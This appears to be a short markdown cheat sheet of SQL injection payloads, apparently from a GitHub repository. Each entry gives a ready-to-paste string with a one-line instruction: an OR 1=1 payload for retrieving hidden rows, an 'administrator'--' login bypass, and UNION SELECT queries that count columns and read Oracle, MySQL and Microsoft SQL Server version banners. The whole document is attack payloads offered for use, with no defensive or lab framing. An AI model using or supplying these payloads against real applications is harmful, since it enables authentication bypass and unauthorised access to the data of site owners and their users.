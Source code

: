 # SQL Injection Payloads

**Retreive Hidden Data**
  - Modift the query parameter value
```SQL
'+OR+1=1--
```
---
**Login bypass**
  - Modify the user or username parameter
```SQL
administrator'--
```
---
**Oracle database type and version information**
  - Determine the number of columns being returned by the query and which columns contain text data
```SQL
'+UNION+SELECT+'abc','def'+FROM+dual--
```
  - Display the database version information
```SQL
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```
---
**MySQL and Microsoft database type and version information**
- Determine the number of columns being returned by the query and which columns contain text data
```SQL
'+UNION+SELECT+'abc','def'#
```
  - Display the database version information
```SQL
'+UNION+SELECT+@@version,+NULL#
```
---
